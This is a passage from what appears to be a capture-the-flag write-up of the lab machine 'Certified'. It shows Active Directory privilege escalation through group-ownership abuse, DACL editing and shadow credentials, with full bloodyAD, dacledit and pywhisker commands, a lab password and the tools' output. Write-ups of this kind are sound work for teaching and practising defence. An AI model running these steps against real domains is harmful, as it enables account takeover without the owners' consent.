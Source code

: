 So, after enumerating all, we can point out these key features:

1. `judith.mader` permissions:

* `WriteOwner` permissions on the `Management Group`

2. `management_svc` permissions:

* `GenericWrite` permissions on the `Management Group`
* `GenericAll` permissions over the `ca_operator` account

With this info, we can start exploitation.

## EXPLOITATION

***

Once we know the permissions we have, we can start escalating our privileges, let's start with using the `WriteOwner` permission of `judith.mader` to set that user as owner of the management group, for this, let's use `bloodyAD`:

```
bloodyAD --host "10.10.11.41" -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader

[+] Old owner S-1-5-21-729746778-2675978091-3820388244-512 is now replaced by judith.mader on Management
```

Nice, we are now owner of the management group, let's update the group permissions to enable the write permission, for this, we can use `dacledit`:

```
sudo python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'

[*] DACL backed up to dacledit-20250312-130240.bak
[*] DACL modified successfully
```

Next step would be adding `judith.mader` to Management group:

```
bloodyAD --host 10.10.11.41 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"

[+] judith.mader added to Management
```

There we go, now, we can exploit **KeyCredentialLink**, **KeyCredentialLink** is an attribute in Active Directory (AD) that stores **public key credentials** linked to a user or computer account. These credentials are used for modern authentication methods like **Windows Hello for Business** or **FIDO2 security keys**. When exploited, this attribute allows attackers to **add their own malicious public key** to a target account, enabling authentication **without knowing the account's password**.

In order to exploit this, we can use `pywhisker`:

```
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add

[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: d98831f9-11eb-7a98-1ce4-4b3f2fe83cff
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: GNJ5gqL7.pfx
[+] PFX exportiert nach: GNJ5gqL7.pfx
```